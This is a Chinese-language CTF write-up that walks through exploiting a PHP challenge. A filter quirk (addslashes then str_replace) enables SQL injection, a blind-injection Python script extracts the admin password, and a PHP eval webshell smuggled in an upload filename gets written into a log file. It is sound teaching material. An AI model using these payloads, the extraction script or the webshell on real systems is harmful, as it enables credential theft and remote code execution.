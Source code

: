 ![image-20250913111029375](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250913111029375.png)

老规矩看到登录框先试试简单的sql注入，发现没有其他额外信息，估计就不太可能是简单的sql注入了。首先进行信息收集，html没有什么注释的提示，那就目录扫描。首先看robots.txt：

```
User-agent: *
Disallow: *.php.bak
```

很明显是找备份文件了，我这里没有扫描，直接找index.php.bak，发现不存在。抓包的时候发现用户名密码是提交到了user.php，我们访问user.php.bak，发现也不存在。抓包时候发现还要向image.php请求猫猫图片，我们找一下image.php.bak，成功找到：

```php
<﻿?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```

这里的关键在于先进行了addslashes然后又str_replace

如果上传\0，那么过程是  \0  ->  \\\0   ->   \

这就过滤出一个单独的反斜杠，这个反斜杠可以转义id的右边的'，使得id的结束'变成path的左边的'

`select * from images where id=' \' or path= '     {$path}'`

那么我们输入的path就可以插入额外的sql语句了

比如：`image.php?id=\0&path=or%201=1%23`这样也能显示出图片

因为这里只返回/不返回图片，所以用sql盲注，这里只给出最后爆密码的python脚本：

```python
import  requests
url = "http://eba63dae-3cf2-4f30-8b24-2d0e21aca58a.node5.buuoj.cn:81/image.php?id=\\0&path="
payload = " or ascii(substr((select password from users),{},1))>{}%23"
result = ''
for i in range(1,100):
    high = 127
    low = 32
    mid = (low+high) // 2
    # print(mid)
    while(high>low):
        r = requests.get(url + payload.format(i,mid))
       # print(url + payload.format(i,mid))
        if 'JFIF' in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    result += chr(mid)
    print(result)
```

爆出来用户名(admin)密码，登录之后可以上传文件。

![image-20250913114832937](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250913114832937.png)

我们随便上传一个普通文件，给出了

![image-20250913134711410](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250913134711410.png)

这是一个php的日志文件，记录了上传的文件名。我们想到可以通过文件名写webshell

`<?php @eval($_POST[cmd]);?>`

上传后发现关键字php被过滤，那我们用短标签

`<?= @eval($_POST[cmd]);?>`

日志文件中就包含了我们写入的语句，用蚁剑连上，读取/flag